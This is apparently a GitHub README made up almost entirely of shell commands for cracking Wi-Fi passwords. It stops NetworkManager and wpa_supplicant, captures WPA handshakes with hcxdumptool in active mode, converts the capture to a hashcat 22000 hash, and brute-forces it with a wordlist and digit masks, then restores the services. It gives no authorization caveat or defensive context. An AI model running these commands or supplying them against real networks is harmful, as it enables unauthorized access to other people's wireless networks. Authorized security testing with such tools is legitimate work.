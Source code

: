 # COMMANDS

## Initial step

```bash
sudo systemctl stop NetworkManager.service
```

```bash
sudo systemctl stop wpa_supplicant.service
```

## Using hcxdumptool to capture pcapng file

```bash
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15 
```

## Using hcxpcapngtool to convert pcapng file to hash file

```bash
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

```bash
hashcat -m 22000 hash.hc22000 wordlist.txt
```

## Windows

```bash
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```

```bash
hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```

## Set Network and utils to normal state

```bash
sudo systemctl start wpa_supplicant.service
```

```bash
sudo systemctl start NetworkManager.service
```
